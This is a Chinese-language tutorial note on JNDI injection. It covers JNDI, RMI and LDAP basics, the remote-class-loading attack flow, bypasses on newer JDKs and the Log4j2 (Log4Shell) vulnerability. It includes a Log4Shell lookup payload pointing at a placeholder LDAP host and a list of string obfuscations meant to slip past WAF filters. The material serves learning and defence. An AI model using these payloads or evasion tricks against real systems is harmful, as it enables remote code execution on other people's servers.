## 什么是JNDI

`JNDI(Java Naming and Directory Interface)`是`Java`提供的`Java`命名和目录接口。

> Naming Service 命名服务：命名服务将名称和对象进行关联，提供通过名称找到对象的操作
>
> Directory Service目录服务：目录服务是命名服务的扩展，除了提供名称和对象的关联，还允许对象具有属性。

通过调用`JNDI`的`API`可以定位资源和其他程序对象。

> 通过名称查找(`lookup`)对象 		
>
> 通过对象的属性搜索(`search`)对象

`JNDI`是`Java EE`的重要部分，`JNDI`可访问的现有的目录及服务有:`JDBC`、`LDAP`、`RMI`、`DNS`、`NIS`、`CORBA`，如

```java
dns://domain
ldap://ip/name
rmi://ip/name
```


## 什么是RMI

`RMI`全称是`Remote Method Invocation`（远程⽅法调⽤），目的是为了让两个隔离的java虚拟机，如虚拟机A能够调用到虚拟机B中的对象，而且这些虚拟机可以不存在于同一台主机上。

**RMI其发送、接收的数据都是反序列化数据。**


## 什么是LDAP

 `LDAP`，全称为 `Lightweight Directory Access Protocol`，即轻量级目录访问协议，主要用于资源查询。


## 漏洞形成原因

> JNDI支持从指定的远程服务器上下载class文件，加载到本地JVM中，并通过适当的方式创建对象。
>
> 如果目标应用进行了JNDI查询（`lookup`），并且其查询的地址或名称可控的话，就会形成JNDI注入漏洞


## JNDI注入

### 流程



1. 攻击者构造恶意协议，传入服务端（目标应用）

   ```java
   rmi://ip:port/name
   ldap://ip:port/name
   dns://{外带数据}.域名
   ```

2. 服务端连接到攻击者指定的服务，查询得到一个恶意的`JNDI Reference`

3. 服务端解析该恶意`JNDI Reference`

4. 根据解析结果到指定服务器上下载`Factory`的字节码

5. 加载字节码，攻击者的恶意代码被执行


### RMI

#### 低版本

服务端



RMI服务



```java
Reference reference = new Reference(className,classFactor,classFactoryLocation)
```

> `className`：远程加载时所使用的类名
> `classFactor`：加载的 class 中需要实例化类的名称
> `classFactoryLocation`：提供classes数据的地址可以是 file/ftp/http 等协议


存放恶意字节码的WEB服务器

恶意字节码对应的java文件

先启动RMI服务和web服务器




再启动Server





#### 高版本



`com.sun.jndi.rmi.object.trustURLCodebase` 默认为 `false`，所以会进入 `if` 语句，抛出异常。


##### 绕过

原理

绕过抛出异常后进入`javax.naming.spi.NamingManager` 





实现

`Tomcat Server`中的`BeanFactory`类，通过该类的`getObjectInstance`方法反射调用了`javax.el.ELProcessor`的`eval`方法，最终实现了EL表达式执行达到RCE的效果。


### LDAP

#### 低版本

同RMI，远程加载即可

#### 高版本

当从`LDAP Server`传来的对象是序列化对象时，会调用`readobject`方法，存在反序列化漏洞。


### 版本影响

`com.sun.jndi.rmi.object.trustURLCodebase` 默认为 `false`



绕过方法

- 利用本地Class作为Reference Factory
- 利用LDAP返回序列化数据，触发本地Gadget


## Log4J2

### 原理

Log4j是java用来处理日志的第三方组件，提供了`Lookups`的机制：

> 会对日志中用 `${prefix:key}`包裹起来的变量进行解析



当记录的信息为`${jndi:xxx}`时,log4j2就会发起`JNDI Lookup`查询,从而触发JNDI注入漏洞。

### 基本payload

```bash
?a=${jndi:ldap://xxxx/a}
```

log4j2包含的变量

https://github.com/bfengj/CTF/blob/main/Web/java/Log4j2/Log4j2-%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E5%AD%A6%E4%B9%A0.md


### waf绕过

假设过滤了字符abc

```bash
a${:-b}c
${lower:b}
a${::-b}c
a${E:-a}c
a${:-${:-b}}c
a${xxxanycodexxxx:-b}c
    
unicode编码绕过
插入空白字符绕过
```


